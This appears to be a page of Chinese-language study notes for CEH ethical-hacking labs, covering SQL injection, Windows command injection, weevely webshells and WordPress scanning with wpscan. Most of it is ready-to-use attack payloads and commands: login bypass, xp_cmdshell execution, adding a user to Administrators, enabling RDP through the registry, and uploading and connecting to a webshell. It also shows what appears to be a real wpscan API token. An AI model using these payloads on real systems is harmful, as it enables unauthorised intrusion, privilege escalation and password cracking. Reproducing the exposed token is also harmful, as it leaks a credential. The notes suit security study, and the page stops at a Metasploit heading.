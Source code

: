     - 用whoami:
        - ommand standard output: 'nt service\mssql$sqlexpress'

**SQL Injection**

- 可以跳過login
    - blah' or 1=1 --
- 插入一個值
    - blah';insert into login values ('john','apple123');
- 建立DB
    - blah';create database mydatabase;
- 執行程式
    - blah';exec master..xp\_cmdshell 'ping www.moviescope.com -l 65000 -t'; --

**命令注入攻擊法**

- 如果具有command injection
    - 可以用管線
    - |whoami
- 常用的windows command injection指令
    - net users
    - net user XXXX /add
    - net localgroup Administrators
    - net localgroup Administrators XXXX /add
    - reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f
    - netstat -an | findstr :3389

**WebShell攻擊方法**

- 利用weevely製作webshell
    - weevely generate cehp XXXX.php
- 將製作出來的web shell上傳到網站上
- 利用weevely連線到後門
    - weevely [http://xxxxxx.php](http://xxxxxx.php) chep （網址要是上傳web shell的那個實際網址）
- 利用weevely下載檔案
    - file\_download 遠端 地端

**　**

**有關WordPress網站的查看方法**

- 使用whatweb取得web的相關資訊
    - whatweb [http://111.1.1.1/ceh](http://111.1.1.1/ceh)
- 以whatweb知道該網站為wordpress的網站後，可以再用wpscan取得使用者
    - wpscan --url [http://1.1.1.1](http://1.1.1.1) -e u
- 再以wpscan破密
    - wpscan --url [http://1.1.1.1](http://1.1.1.1) -P password-wordlist
- wpscan API Token
    - skfQiBi5IJDMK440vro4rJ1sUcHFNPmJDYREBuK2akk
- wpscan --url http://10.10.10.16:8080/ceh --api-token skfQiBi5IJDMK440vro4rJ1sUcHFNPmJDYREBuK2akk -P /usr/share/wordlists/nmap.lst
- 使用wpscan並且加上API Key得知漏洞

**以Metasploit來攻擊WordPress**
